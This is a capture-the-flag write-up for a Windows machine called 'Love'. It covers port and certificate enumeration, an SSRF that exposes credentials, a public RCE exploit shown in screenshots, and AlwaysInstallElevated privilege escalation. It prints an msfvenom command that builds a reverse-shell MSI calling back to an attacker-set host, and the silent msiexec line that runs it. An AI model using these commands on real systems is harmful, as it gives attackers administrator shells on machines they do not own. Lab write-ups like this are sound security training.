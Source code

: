 # Love

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (8) (7).png" alt=""><figcaption></figcaption></figure>

Lots of ports open.

### TLS Cert Checking

Port 80 reveals a voting system that requries credentials. Port 5000 was blocked off for whatever reason.

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

A bit of enumeration on the type of service running reveals that it was an outdated software with loads of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Checking the certificate on port 443 reveals a hidden sub-domain.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We can add this to the `/etc/hosts` file and view it.

### SSRF --> Authenticated RCE

The sub-domain found reveals this:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Signing up and viewing it would direct us to this page:

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

I was able to get hits on a HTTP server hosted on my machine, but I could not download or execute anything. Since it was the server sending requests, I tried to enter `http://localhost:5000` and was returned this:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

With credentials, we now get a shell using an RCE exploit that is publicly available. Just change the settings here:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Then run the exploit:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated

When on the machine, I ran winPEAS to enumerate for me and found that `AlwaysInstallElevated` was set to 1.

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

What this exploit allows us to do is execute commands as the Administrator user through `msiexec`. As such, we would first need to generate a quick reverse shell using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o rev.msi

# on target
msiexec /quiet /qn /i C:\directory\to\rev.msi
```

Afterwards, we would get a shell as the administrator:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
